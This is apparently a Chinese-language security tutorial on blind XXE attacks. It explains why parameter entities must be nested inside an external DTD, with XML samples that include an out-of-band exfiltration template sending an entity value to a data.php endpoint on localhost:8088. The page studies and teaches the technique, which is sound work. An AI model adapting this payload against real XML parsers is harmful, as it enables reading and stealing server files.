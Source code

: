 在[Blind XXE经典payload引发的脑洞](http://gv7.me/articles/2018/think-about-blind-xxe-payload/)中看见了一部分作者的思路，同时引入文档的简单翻译：
[XMLDTDEntityAttacks.pdf](https://www.vsecurity.com//download/papers/XMLDTDEntityAttacks.pdf)
------------------------
>对参数实体的引用必须出现在DTD中，并且必须使用”%…;”语法。此外，对于在DTD中使用参数实体的上下文，通常会有各种各样的限制。一个重要的限制(在几个XML解析器中一致地出现)是，虽然参数实体可以定义用于引用的DTD语法(例如”%an-element”)，但是它可能不会定义一个立即被用于另一个DTD标记的值。也就是说，这个语法会在我们测试的解析器中失败:
```xml
<!ENTITY % pm "subtag">
<!ELEMENT mytag (%pm;)>
```

简单的理解是说：在某些XML解析器中这样做是可以的，但是在某些XML解析器中，这样又不行。所以文档中给出一种解决办法
>然而，如果实体引用存在于子DTD中，这种样式的语法通常会成功。也就是说，如果文档的DTD引用外部实体，包括使用参数实体引用的外部文档的值，并且外部文档引用前面定义的实体，那么动态构建的DTD标记将被解释为人们所期望的。

使用了文章作者的代码实验，发现这样写没毛病。
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % pm "subtag">
<!ENTITY % b SYSTEM "http://localhost:8088/xxe.dtd">
%b;
]>
<data>send</data>

<!-- xxe.dtd -->
<!ELEMENT mytag (%pm;)>
```

但是我们在下面的PAYLOAD中不仅仅使用了外部引用的方式，还对外部实体进行了嵌套。如果不嵌套就会发生各种报错。那么为什么一定要嵌套呢?
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
<!ENTITY % file "123">
<!ENTITY % b SYSTEM "http://localhost:8088/xxe.dtd">
%b;
]>
<data>&send;</data>

<!-- xxe.dtd -->
<!ENTITY % a "<!ENTITY send SYSTEM 'http://localhost:8088/data.php?data=%file;'>">
%a;
```




#### 内外部实体声明
同样，实体可在内部或外部进行声明。也分别被称为内部子集与外部子集。
```
// 内
<!ENTITY 实体名称 "实体的值">

<!--DTD-->
<!ENTITY writer "Bill Gates">
<!ENTITY copyright "Copyright W3School.com.cn">
<!--元素-->
<author>&writer;&copyright;</author>



// 外
<!ENTITY 实体名称 SYSTEM "URI/URL">

<!--DTD-->
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
```